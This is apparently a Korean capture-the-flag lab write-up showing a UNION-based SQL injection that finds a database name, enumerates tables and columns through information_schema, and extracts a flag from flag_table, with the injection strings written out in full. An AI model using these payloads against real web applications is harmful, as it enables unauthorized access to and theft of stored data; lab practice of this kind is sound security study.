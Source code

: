 ![union select](/assets/web-screenshots/union-sqli/sql_1_database.png)

컬럼 수가 확인된 뒤, `UNION SELECT` 문을 통해 데이터를 삽입해보았다.

```html
normaltic'+union+select+database(),'lll',3,4--+
```

를 입력하자 검색 결과 중 하나에 **sqli_1**이라는 문자열이 출력되었고, 이를 통해 현재 사용 중인 데이터베이스의 이름이 **sqli_1**임을 확인할 수 있었다.

이후 `information_schema.tables`를 활용하여 데이터베이스 내 존재하는 테이블 이름을 확인했다. 

```html
normaltic'+union+select+1,'lll',3,(select+table_name+from+information_schema.tables+where+table_schema='sqli_1'+limit+0,1)--+ 
```

쿼리를 통해 **flag_table**이라는 테이블 이름을 추출할 수 있었다.

마찬가지로 `information_schema.columns`를 사용하여 해당 테이블의 컬럼 이름을 찾기 위해 

```html
normaltic'+union+select+1,'lll',3,(select+column_name+from+information_schema.columns+where+table_schema='sqli_1'+and+table_name='flag_table'+limit+0,1)--+
```

를 입력했고, **flag**라는 컬럼명을 알아낼 수 있었다.

마지막으로 실제 데이터를 확인하기 위해 

```html
normaltic'+union+select+1,'lll',3,(select+flag+from+flag_table+limit+0,1)--+
```

쿼리를 사용하면

![sql1 flag](/assets/web-screenshots/union-sqli/sql_1_flag.png)
